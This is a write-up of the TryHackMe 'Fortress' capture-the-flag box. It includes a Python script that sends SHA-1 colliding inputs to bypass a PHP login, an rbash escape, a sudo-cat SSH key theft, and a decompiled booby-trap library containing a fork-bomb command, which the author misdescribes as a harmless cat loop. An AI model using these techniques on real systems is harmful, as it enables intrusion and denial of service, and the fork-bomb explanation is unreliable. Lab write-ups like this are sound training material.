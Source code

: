 <h3> Fortress TryHackMe </h3>

Difficulty = Medium

Nmap Scan:
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b90c908d-b712-4207-b663-334cf62092b1)

Lets start enumeration from ftp 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/584e61c6-87d3-48cb-bdb3-0d832ee5c27f)

Reading the *marked.txt* file shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/de3ab684-1e53-49d5-9494-552336f8eec3)

While checking the file type for the *file* shows it's a python compiled binary
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e8252502-7679-416a-a5f3-3f21526834b9)

Lets decompile it using [uncompyle2](https://github.com/wibiti/uncompyle2)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/d3c64e11-2d32-4558-bc2e-e1bbf94790a0)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/05362c40-c0bf-4158-9aa3-0fe89383676f)

We can see what it does. It creates a socket running on port *5752* and it asks for username and password, If the provided username and password is correct it calls the secret() function which basically opens up the *secret.txt* file

But the username and password is converted from bytes to long I wrote a script to decode it

```python
#!/usr/bin/python3
# Author: Hack.You
from Crypto.Util.number import long_to_bytes

usern = 232340432076717036154994
passw = 10555160959732308261529999676324629831532648692669445488

print(f'Username: {long_to_bytes(usern)}')
print(f'Password: {long_to_bytes(passw)}')
```

Running the script gives the username and password
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/071f17a7-1409-409b-b5ac-360259859634)

Now lets connect to the remote socket hosted on port 5752
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/d01ccd61-877e-4f5a-8260-2941292587fb)

It gives us this `t3mple_0f_y0ur_51n5`

What can we do with this now 🤔

Lets move over to the web server 

Checking it just shows the normal apache default web page

Fuzzing for directory doesn't lead me anywhere

But when i tried *t3mple_0f_y0ur_51n5* appended with a *.html* gives this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a1236764-4b54-4f73-be57-aa3958c7c3f9)

But checking source code shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1673f22e-ce94-4e8c-a9c0-9311298b1c52)

Also looking at the style.css file gives this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a063d1e1-bcc3-4e67-9052-99353b710f23)

When decoded it forms this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/412f1966-bc68-4e97-8b6d-2221e85e5d75)

From here we can tell that we're to do a hash collision since *COLLIDING* was capitalized 

Here's what the php code does:

```
1. It assigns zero of length 6 to the badchar variable
2. It checks for if the username and password is passed via a get parameter
3. It converts them to string which are stored respectively in variable test1 and test2
4. It converts the two test variable to hex which are stored in hex1 and hex2 respectively
5. The first check that is done checks if test1 is equal to test2 then it prints out 'You can\'t cross the gates of the temple, GO AWAY!!
6. The second check is that if the string length of test2 is less than or equal to 500 and the string length of test1 is less than or equal to 600. If it is it prints out some error message
7. The third check, checks if the first occurrence of hex1 is equal to the bad byte or the first occurence of hex2 is equal to the bad bytes and if it is it prints an error message
8. The last check compares the sha1 value of test1 with that of test2 # bug here
```

From this we can tell that the bug is in the fourth check as it doesn't use *===* but rather *==* 

Using this past [writeup](https://github.com/bl4de/ctf/blob/master/2017/BostonKeyParty_2017/Prudentialv2/Prudentialv2_Cloud_50.md) on a ctf I edited the script to work for this box

```python
#!/usr/bin/env python
import requests

name = '255044462D312E33 0A25E2E3 CFD30A0A 0A312030 206F626A 0A3C3C2F 57696474 68203220 3020522F 48656967 68742033 20302052 2F547970 65203420 3020522F 53756274 79706520 35203020 522F4669 6C746572 20362030 20522F43 6F6C6F72 53706163 65203720 3020522F 4C656E67 74682038 20302052 2F426974 73506572 436F6D70 6F6E656E 7420383E 3E0A7374 7265616D 0AFFD8FF FE002453 48412D31 20697320 64656164 21212121 21852FEC 09233975 9C39B1A1 C63C4C97 E1FFFE01 7F46DC93 A6B67E01 3B029AAA 1DB2560B 45CA67D6 88C7F84B 8C4C791F E02B3DF6 14F86DB1 690901C5 6B45C153 0AFEDFB7 6038E972 722FE7AD 728F0E49 04E046C2 30570FE9 D41398AB E12EF5BC 942BE335 42A4802D 98B5D70F 2A332EC3 7FAC3514 E74DDC0F 2CC1A874 CD0C7830 5A215664 61309789 606BD0BF 3F98CDA8 044629A1 3C68746D 6C3E0A3C 73637269 7074206C 616E6775 6167653D 6A617661 73637269 70742074 7970653D 22746578 742F6A61 76617363 72697074 223E0A3C 212D2D20 40617277 202D2D3E 0A0A7661 72206820 3D20646F 63756D65 6E742E67 6574456C 656D656E 74734279 5461674E 616D6528 2248544D 4C22295B 305D2E69 6E6E6572 48544D4C 2E636861 72436F64 65417428 31303229 2E746F53 7472696E 67283136 293B0A69 66202868 203D3D20 27373327 29207B0A 20202020 646F6375 6D656E74 2E626F64 792E696E 6E657248 544D4C20 3D20223C 5354594C 453E626F 64797B62 61636B67 726F756E 642D636F 6C6F723A 5245443B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 383B3C2F 48313E22 3B0A7D20 656C7365 207B0A20 20202064 6F63756D 656E742E 626F6479 2E696E6E 65724854 4D4C203D 20223C53 54594C45 3E626F64 797B6261 636B6772 6F756E64 2D636F6C 6F723A42 4C55453B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 393B3C2F 48313E22 3B0A7D0A 0A3C2F73 63726970 743E0A0A'

password = '25504446 2D312E33 0A25E2E3 CFD30A0A 0A312030 206F626A 0A3C3C2F 57696474 68203220 3020522F 48656967 68742033 20302052 2F547970 65203420 3020522F 53756274 79706520 35203020 522F4669 6C746572 20362030 20522F43 6F6C6F72 53706163 65203720 3020522F 4C656E67 74682038 20302052 2F426974 73506572 436F6D70 6F6E656E 7420383E 3E0A7374 7265616D 0AFFD8FF FE002453 48412D31 20697320 64656164 21212121 21852FEC 09233975 9C39B1A1 C63C4C97 E1FFFE01 7346DC91 66B67E11 8F029AB6 21B2560F F9CA67CC A8C7F85B A84C7903 0C2B3DE2 18F86DB3 A90901D5 DF45C14F 26FEDFB3 DC38E96A C22FE7BD 728F0E45 BCE046D2 3C570FEB 141398BB 552EF5A0 A82BE331 FEA48037 B8B5D71F 0E332EDF 93AC3500 EB4DDC0D ECC1A864 790C782C 76215660 DD309791 D06BD0AF 3F98CDA4 BC4629B1 3C68746D 6C3E0A3C 73637269 7074206C 616E6775 6167653D 6A617661 73637269 70742074 7970653D 22746578 742F6A61 76617363 72697074 223E0A3C 212D2D20 40617277 202D2D3E 0A0A7661 72206820 3D20646F 63756D65 6E742E67 6574456C 656D656E 74734279 5461674E 616D6528 2248544D 4C22295B 305D2E69 6E6E6572 48544D4C 2E636861 72436F64 65417428 31303229 2E746F53 7472696E 67283136 293B0A69 66202868 203D3D20 27373327 29207B0A 20202020 646F6375 6D656E74 2E626F64 792E696E 6E657248 544D4C20 3D20223C 5354594C 453E626F 64797B62 61636B67 726F756E 642D636F 6C6F723A 5245443B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 383B3C2F 48313E22 3B0A7D20 656C7365 207B0A20 20202064 6F63756D 656E742E 626F6479 2E696E6E 65724854 4D4C203D 20223C53 54594C45 3E626F64 797B6261 636B6772 6F756E64 2D636F6C 6F723A42 4C55453B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 393B3C2F 48313E22 3B0A7D0A 0A3C2F73 63726970 743E0A0A'

name = ''.join(name.split(' '))
password = ''.join(password.split(' '))

namestr = ''.join(['%' + name[i] + name[i + 1]
           for i in range(0, len(name)) if i % 2 == 0])

passwordstr = ''.join(['%' + password[j] + password[j + 1]
           for j in range(0, len(password)) if j % 2 == 0])

url = 'http://fortress:7331/t3mple_0f_y0ur_51n5.php?user={}&pass={}'.format(namestr, passwordstr)
resp = requests.get(url)
print(resp.text)
```

Note: I had to use *t3mple_0f_y0ur_51n5.php* cause that's the main page the login is based on

Running the script works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/149f9965-0e07-4090-9c9c-7a822eff1aae)

We can see this new file in the html *m0td_f0r_j4x0n.txt*

Going over there gives an ssh key
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/834d8346-f8d0-4e7b-8999-5f63018039ad)

Lets login to ssh as user *h4rdy* 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5c692abf-0a51-483d-b33c-9dd4a2986c7c)

After loggin in we can tell that we're restricted to command cause we're in a rbash shell
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1f2f1171-546c-4c2c-b42e-bc6e7950413b)

Quick google research leads [here](https://gist.github.com/PSJoshi/04c0e239ac7b486efb3420db4086e290)

Trying it works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5f9bfc96-a817-435f-bd59-c881ca2b865b)

But the problem is our path variable is messed up 

Lets fix that 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/888017ab-47ab-4ed3-97f6-e9466f36ce20)

```
Command: export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:$PATH
```

Doing *sudo -l* shows we can run *cat* as user *j4x0n*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5b64d183-c0c7-494c-959f-0c49246f1888)

Checking [gtfobins](https://gtfobins.github.io/gtfobins/cat/#sudo) shows we can perform *File Read* 

The best file to read is the user's ssh key
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2e636015-36c9-401a-b4c7-591528455224)

Lets save it and login as user *j4x0n*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/d2c6a168-6fb9-478b-b3a6-bcf9d96e7bbd)

Looking at the files in the cwd directory shows this *endgame.txt* and viewing it's content shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1670a4b5-faf0-4926-826a-8d1f1f61d402)

It claims that everything has been patched and no way of getting root well lets see about that 😅

I uploaded linpeas to the box and after running it I found this interesting
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/7dc2cad0-94a8-497a-bb9c-08463d9f0977)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9a8ab466-ef10-44df-b284-90fc9bc90e9f)

From the result of the scan we can tell that:

```
1. One possible way of escalating privilege to root is by checking the log files since we're in the adm group
2. Checking the suid binary
```

Lets start with the SUID binary first. I uploaded it to my machine for further analysis

After I decompiled it using ghidra and viewing the main function here's what it gave

```c
undefined8 main(void)

{
  puts("Root Shell Initialized...");
  sleep(2);
  puts("Exploiting kernel at super illuminal speeds...");
  sleep(1);
  puts("Getting Root...");
  sleep(3);
  foo();
  return 0;
}
```

The foo function resides in the libcfoo.so file which can be gotten from the box and downloaded to our machine
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/ce31e42b-ebb7-4d96-9c5b-d4f4be9ef22b)

After uploading it to my machine and decompiling it here's the function

```c
void foo(void)

{
  puts("Bwahaha, You just stepped into a booby trap XP");
  sleep(2);
  system("sleep 2 && func(){func|func& cat /dev/urandom &};func");
  system("sleep 2 && func(){func|func& cat /dev/urandom &};func");
  system("sleep 2 && func(){func|func& cat /dev/urandom &};func");
  system("sleep 2 && func(){func|func& cat /dev/urandom &};func");
  system("sleep 2 && func(){func|func& cat /dev/urandom &};func");
  return;
}
```

We see it's just a loop that runs *cat /dev/urandom* each 2 seconds

So nothing really is worth it in this binary

Lets see if there's any thing in the log files
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b5f37e0d-6de8-4b5c-be09-c749262ab4b6)

We see that password *yoU_c@nt_guess_1t_in_zillion_years*

Trying it on *sudo -l* works

Now we can switch to root
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/97caab9e-fa1e-49fa-8617-3829cc289cd5)

And we're done 👻
